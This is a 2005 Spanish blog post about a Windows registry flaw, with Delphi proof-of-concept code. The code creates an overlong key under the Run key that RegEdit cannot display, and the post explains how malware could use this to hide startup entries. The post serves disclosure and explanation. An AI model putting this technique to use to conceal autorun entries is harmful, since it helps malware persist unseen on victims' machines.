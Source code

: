 ```yaml
---
comments: true
date: 2005-10-12 01:41:54
layout: post
slug: una-seria-falla-en-el-registro-de-windows
title: Una seria falla en el registro de Windows
authors: [admin]
wordpress_id: 154
---
```


Sucede que a veces uno se topa con problemas mas grandes de lo que se imagina.

Investigando sobre un fallo reportado en [Secunia en Agosto](http://secunia.com/advisories/16560/), nunca sospeche que el problema era más serio de lo que pensaba.

Esencialmente, la falla permite excribir una entrada (key) en el registry que no es visible para las herramientas como Microsoft RegEdit.

Como se muestra en la imagen, pude crear una entrada oculta en el registry:


Resulta que debajo de Optional hay una llave cuyo nombre consiste de 256 X seguidas.

El siguiente código en Delphi, permite explicar el fallo:
    
```
    procedure TestRegistryFlaw;
    var
        I: Integer;
        reg : TRegistry;
        key : string;
    begin
        reg := TRegistry.Create;
        key := 'SOFTWARE\Microsoft\Windows\CurrentVersion\Run\Optional\';
        try
            for I := 0 to 255 do    // Iterate
                key := key + 'X';
            reg.RootKey := HKEY_LOCAL_MACHINE;
            if reg.OpenKey(key, true) then
            begin
                ShowMessage('trying to hack');
                reg.WriteString('TestFlaw', 'This is hacked registry key');
                ShowMessage('hacked!!!');
            end;
        finally
            reg.Free;
        end;
    end;

    procedure CheckRegistryFlaw;
    var
        I: Integer;
        reg : TRegistry;
        key : string;
    begin
        reg := TRegistry.Create;
        key := 'SOFTWARE\Microsoft\Windows\CurrentVersion\Run\Optional\';
        try
            reg.RootKey := HKEY_LOCAL_MACHINE;
            for I := 0 to 255 do    // Iterate
                key := key + 'X';
            if reg.OpenKey(key, false) then
            ShowMessage(reg.ReadString('TestFlaw'));
        finally
            reg.Free;
        end;
    end;
```

Lo que tenemos aquí es que hemos creado una entrada que no es visible por regedit y otros utilitarios de Windows.

Pero lo peor, es que en Microsoft.Net este código no puede ser creado, porque la Clase RegistryKey hace un chequeo, levantando una excepción si uno trata de escribir una llave de largo mayor que 255.

En suma, lo que hacen en Microsoft.Net es ocultar el bug debajo de la alfombra.

Pero, ¿cual es el problema con esto? es que uno puede escribir código en la llave Run de Windows, con lo que se hace[posible ocultar virus o malware de cualquier tipo](http://techrepublic.com.com/2100-1009_11-5843863.html), para ser ejecutado en cuanto se inicia Windows, y usted no podrá verlo, porque las herramientas de Windows no le dan la posibilidad de revisar este código malicioso.

Es posible escribir código en C# o C++ que hace lo mismo que el código Delphi que escribí más arriba. Sugiero ver mi post en DarkSideProgramming: [Hidding a Flaw](http://www.darksideprogramming.org/archives/2005/10/hidding_a_flaw.html).

Pero lo interesante, es que algunos programadores en CodeProject han descubierto que, al menos en Windows XP conSP2 la falla es más seria !



